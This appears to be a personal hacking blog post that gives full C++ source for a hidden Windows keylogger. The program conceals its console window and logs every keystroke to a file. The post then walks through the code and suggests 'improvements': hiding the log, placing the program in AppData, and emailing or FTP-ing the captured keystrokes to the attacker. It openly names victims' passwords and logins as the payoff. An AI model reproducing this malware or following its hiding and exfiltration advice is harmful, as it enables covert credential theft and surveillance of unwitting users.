 ```yaml
---
title: 'I Know What You Typed Last Summer'
date: '12-01-2023'
time: '12:30'
summary: 'A sort of introductory second post thing, but not really.'
---
```


Wow, I showed up with a post. Well, it is the first proper post on this blog, so naturally, there would be some kind of enthusiasm there.

I figured that we should start with a bang, and then see how things go from there.
One of the most dynamic areas of interest in the world of cybersecurity and hacking is all the malware circulating everywhere.

Say what you will, malware is pretty effective at infecting systems. Most of it is successful because it’s able to exploit a fundamental flaw — the human one. Whether it be disguising itself as a trojan, or worm-ing its way to other gullible victims, or really any other kind of virus, you can say that malware is like the bow-and-arrows of the hacker world.
This very thing – the distribution of malware is often the hard part. The actual implementation and workings are fairly straightforward (of course there are very elegant exceptions). This post focuses on a particular type of malware — the keylogger, which as the name suggests logs user keystrokes. You can probably realize how a complete log of all the keys pressed by a user can be used for nefarious purposes in the hands of a hacker.

## Keylogger In Action

<img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1679309243890/e3c418fc-aeae-4302-addd-b03bb855cb60.png" class="mx-auto">

Here’s the actual file on my desktop, right along Kyuubi’s paw. It’s 142kb in size — but what happens if I run it?

![https://hecktheplanet.files.wordpress.com/2022/09/screenshot-2022-08-14-171237-1.jpg](https://hecktheplanet.files.wordpress.com/2022/09/screenshot-2022-08-14-171237-1.jpg)

## The Actual Thing

Let’s talk about the actual code.

```cpp
#include <windows.h>
#include <fstream>
#include <thread>
#include <chrono>
#include <ctime>
#include <string>

std::string currentDateTime() {
std::time_t t { std::time(nullptr) };
std::tm\* now { std::localtime(&t) };
char buffer[128];
strftime(buffer, sizeof(buffer), "%m-%d-%Y %X", now);
return buffer;
}

void writeToLog(auto text) {
std::ofstream fileStream;
fileStream.open("logs.txt", std::fstream::app);
fileStream << "[" << currentDateTime() << "] > " << text << "\n";
fileStream.close();
}

bool writeKey(unsigned char keyChar) {
switch(keyChar) {
case 1: break;
case 2: break;
case 8: writeToLog("[BKSPC]"); break;
case 13: writeToLog("[RET]"); break;
case 32: writeToLog("[SPACE]"); break;
case 18: writeToLog("[ALT]"); break;
case VK_TAB: writeToLog("[TAB]"); break;
case VK_SHIFT: writeToLog("[SHIFT]"); break;
case VK_CONTROL: writeToLog("[CTRL]"); break;
case VK_ESCAPE: writeToLog("[ESC]"); break;
case VK_END: writeToLog("[END]"); break;
case VK_HOME: writeToLog("[HOME]"); break;
case VK_LEFT: writeToLog("[LEFT KEY]"); break;
case VK_UP: writeToLog("[UP KEY]"); break;
case VK_RIGHT: writeToLog("[RIGHT KEY]"); break;
case VK_DOWN: writeToLog("[DOWN KEY]"); break;

        default:          writeToLog(&keyChar);
    }
    return true;

}

int main() {
ShowWindow(GetConsoleWindow(), SW_HIDE);

    while (true) {
        std::this_thread::sleep_for(std::chrono::milliseconds(10));
        for (int asciiVal { 8 }; asciiVal <= 255; ++asciiVal)
            if (GetAsyncKeyState(asciiVal) == -32767)
                if (asciiVal < 128)
                    writeKey(static_cast<unsigned char>(asciiVal));
                else
                    writeToLog("[" + std::to_string(asciiVal) + "]");
    }

    return 0;

}

```

Yup, that’s all of it.

And a plaintext block:

```plaintext
main() {
    hide the console;

    infinite loop {
        PAUSE for a while else our computer will lag;
        for every single kind of character appearing on the keyboard {
            if any kind of key is being pressed {
                compare it with the current key being pressed
                if they're the same {
                    time to write the key to the log {
                        if it's an alphanumeric key {
                            write it as it is to the log;
                        } else if it's something else like a "." or "/" or a "[" {
                           write it's corresponding ASCII code to the log;
                       }
                   }
               }
           }
       }
   }
}
```

Functions such as the `GetAsyncKeyValue()` function are obtained from the windows.h header, which is practically the only place where its utility is realized. The file I/O operations are, in true C++ fashion, handled by `fstream`, a much better way than the old C-style method of allocating buffers or whatever. `chrono` and thread also make an appearance, to call the delay in each iteration of the infinite while-loop.

Let’s talk about the `writeKey()` function. Right off the bat, we see it has a boolean return type. Actually we could’ve just gone with a void return type, but again, whatever. It’s not like I’m trying to impress anyone with my code here. You’ll notice there’s a big switch statement in it. Let me just say this now — when given a choice between an if-else if-else tree or a switch construct, always choose the switch construct! They exist for a particular reason. And compilers are optimized to handle switch statements, so there’s basically no reason not to use them.

One thing I will say, however, is that obtaining a timestamp in C++ as a string (that’s key: as a string!) is a complete pain in the neck. In the end, I just copied a helper function I found on StackOverflow, but wow it’s like the creators actually wanted this to be so difficult. I guess this is where Python takes a lead in terms of ease of operation.

## Shortcomings

I'll be straight here, this keylogger is very, very rudimentary.

It utilizes a very inefficient algorithm to capture keystrokes and has to allocate and de-allocate the file stream every single time a key is being pressed. Not to mention, the infinite while-loop also uses up some CPU juice (though its effect is drastically mitigated by the delay we put in, as such it’s nothing to be worried about unless the target system is borderline vintage).

The keylogger DOES NOT work:

- when a UAC prompt is given (all non-essential processes are temporarily halted),
- when the Windows user account is changed, or
- when the system is rebooted.

That’s like half of all the cases where it might’ve been useful enough to do some damage. But fear not, o demoralized script kiddie, for this keylogger is not completely nullified. It still works perfectly in every other situation, and you can get a pretty good idea of how the victim uses the device on a daily basis — this includes passwords and other relevant login info for web-based services. So guess it’s a win?

Another thing to note is that this keylogger application is actually detected by Windows Defender! It in turn takes it upon itself to delete the executable when it deems it necessary. Circumventing antivirus software is currently beyond the realm of my knowledge, so we’re gonna have to accept this fact as it is. But it totally qualifies as real malware, after all, you keep moving forward one step at a time.

## Keylogger 2, The Sequel

Okay so, how can this keylogger be improved?  
Well, first of all, the log file is visible in plain sight. It would be a great idea to output to a hidden file, say, “.logs.txt”. Even then, it isn’t all that good.  
One idea is to deploy the keylogger in the \\AppData\\Local folder, because who even checks there on a regular basis? That way, it remains hidden.

It should work for most purposes, however, there remains one glaring flaw that’s yet to be addressed.  
Our malware works best when we have physical access to the target device. That is to say, for open devices we can just load our virus and let it run for say, a few days, and then retrieve the log file, easy as pie. However physical access is not always guaranteed to exist, so we must look at other avenues.  
Such a keylogger that sends this log file to a pre-determined destination is what is known as a remote keylogger. We don’t need to be anywhere near the target device, yet we can reap the fruits of it.

A simple way to turn our keylogger remote would be to have it send the log file to us _via_ E-mail. Though a bit difficult to accomplish in C++, it can be done through Windows Powershell (this link describes such a method). Another way would be to use FTP to send the log file to a server. The more creative we get in this part, the more likely our malware will succeed in fulfilling its job.

Another area where we could improve is the output file. As you saw in the image, every single keystroke is printed on a new line with a timestamp. Though great for organization, it’s a pain to read. The determined will of course learn to adapt to it, but for most people, it’d be easier to just modify it according to their needs.

Speaking of implementations, a more “advanced” way to get user keystroke input is to use something called Hooks. There’s a bunch of documentation out there on this topic, a little bit of Googling (or DuckDuckGo-ing or Startpage-ing) can get you where you want to be.

Go ahead and do these modifications or add your own ones too; that is if you feel like you have the guts for the job.

And with that, we’re done here. If you have anything to say, drop a comment so I can read it and promptly ban you, because I am an evil dictator. Muahahahaha!

Now all that’s left is to see if I can figure out what to do for the next post.

_Adios!_
